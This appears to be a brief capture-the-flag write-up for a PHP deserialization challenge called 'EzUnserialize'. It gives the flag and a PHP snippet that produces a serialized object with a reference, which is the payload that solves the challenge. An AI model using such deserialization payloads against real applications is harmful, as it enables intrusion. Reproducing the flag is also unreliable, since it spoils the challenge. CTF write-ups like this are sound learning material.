 ## EzUnserialize

`tjctf{b39f3947-b8c3-4d4f-9a26-6ca80986b9c2}`

### writeup

```php 
<?php
$a = new stdclass();
$a->d=&$a->c;
echo serialize($a);
?>
// O:8:"stdClass":2:{s:1:"c";N;s:1:"d";R:2;}
```
